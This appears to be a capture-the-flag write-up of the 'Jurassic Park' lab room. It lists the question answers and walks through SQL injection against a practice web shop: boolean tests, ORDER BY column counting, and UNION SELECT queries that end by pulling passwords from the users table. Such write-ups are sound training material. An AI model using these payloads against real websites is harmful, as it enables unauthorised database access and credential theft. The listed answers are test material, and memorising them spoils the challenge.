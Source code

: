 <h1>Jurrasic Park</h1>
<h3>219-day-streak</h3>

<br>

![image](https://github.com/user-attachments/assets/b717ffa4-cb1c-4daa-8ad7-b1223facc961)

<br>

![image](https://github.com/user-attachments/assets/59e91b57-b389-42a5-be27-c74ce6b0cdf4)

<br>

<h2>Task 1. Jurassic Park CTF</h2>

![image](https://github.com/user-attachments/assets/1a9cd97d-0cc1-4b51-95a1-9504c9a86493)

<br>

<p>This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too.<br>

You'll also want to turn up your device's volume (firefox is recommended). So, deploy the VM and get hacking.<br>

Please connect to our network before deploying the machine.</p>

<br>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>What is the name of the SQL database serving the shop information?</em><br><a id='1.1'></a>
>> <code><strong>park</strong></code>

<br>

> 1.2. <em>How many columns does the table have?</em><br><a id='1.2'></a>
>> <code><strong>5</strong></code>

<br>

> 1.3. <em>What is the system version?</em><br><a id='1.3'></a>
>> <code><strong>5</strong></code>

<br>

![image](https://github.com/user-attachments/assets/cb6a330a-2a15-4fea-843b-d97535e0037e)

<br>

![image](https://github.com/user-attachments/assets/a8d4c1a8-7956-4507-8048-12cf4b9b47a9)


<br>

![image](https://github.com/user-attachments/assets/81ccef22-78fa-42f1-b504-e3e99f79a0aa)

<br>

![image](https://github.com/user-attachments/assets/1764a424-d928-4aad-9384-6dd91769012e)


<br>

<p>We have here an</p>

![image](https://github.com/user-attachments/assets/e334d7ce-26a2-4eca-9141-f1ea031600e7)

<br>

![image](https://github.com/user-attachments/assets/246732de-e61c-4e51-aabd-65f365846c04)

<br>

![image](https://github.com/user-attachments/assets/b8a10fb8-91be-4198-8a89-b0d294cec868)

<br>

<p>Dennis is mentinoned in <code>?id=5</code>.  Maybe it is a username?!</p>

![image](https://github.com/user-attachments/assets/8c346ec3-ce19-484a-9635-ee398e48dc4f)

<br>

<p>Let´s try <code>’ or 1=1</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/0817fa73-100f-477a-a75b-39894433fb0f)

<br>

<p>Scrolling down ... </p>

<br>


![image](https://github.com/user-attachments/assets/a5cd1bf1-d168-46ca-afdb-6a515b64988f)

<br>

<p>So it is about <code>SQL Injection</code>!</p>

<br>

![image](https://github.com/user-attachments/assets/68828109-5c37-4ac9-86ea-12affc334438)


<br>

<p><code>' or 1=1 order by 1,2</code> did not work.<br>
<code>' or 1=1 order by 1,2,3</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4,5</code> did not work.<br><br>
But guess what?  .... with <code>' or 1=1 ORDER BY 1,2,3,4,5,6</code> the output wass ...</p>

<br>


![image](https://github.com/user-attachments/assets/62412608-4a88-4c2e-8efd-37ef9247a743)

<br>

<p>So we can conclude that thre are <code>5</code> columns!  Leté try <code>UNION</code></p>

<br>

![image](https://github.com/user-attachments/assets/097118f6-9e37-45be-bca5-f53034b80bd6)

<br>


<p>Buy, Buy, Buy</p>

<br>

![image](https://github.com/user-attachments/assets/d3bfe821-a1a6-49f8-a417-88908768be4b)


<br>

![image](https://github.com/user-attachments/assets/a9df154f-133b-4596-b60d-222bd010ad61)

<br>

<pre><code>?id=5%20union%20select%201,group_concat(table_name),3,4,5%20from%20information_schema.tables</code></pre>

<br>

![image](https://github.com/user-attachments/assets/a8f44e9b-199a-4fd7-a26b-80c9d14451bf)

<br>

<pre><code>?id=5 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()</code></pre>

<br>

![image](https://github.com/user-attachments/assets/3d5d88a9-c949-4c3c-806d-5c51db1e747d)

<p>Let´s have some fun ...</p>


<pre><code>?id=5 union select 1,group_concat(table_name),2000000,1000,199 from information_schema.tables where table_schema = database()</code></pre>

<br>

![image](https://github.com/user-attachments/assets/46ca00f2-7542-48f6-9919-296ee6db8379)

<p>We can notice that there are <code>two tables</code>: <code>items</code> and <code>users</code></p>

<br>

<pre><code>?id=5 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema = database() and table_name = "users"</code></pre>

<br>

![image](https://github.com/user-attachments/assets/4b3ca1be-e473-411d-8189-c2ea2d22111c)

<br>

http://jurassic.thm/item.php?id=5%20union%20select%201,password,3,4,5%20from%20users

![image](https://github.com/user-attachments/assets/669a0148-a62f-48b6-a26d-84550fdcba17)

<br>
















































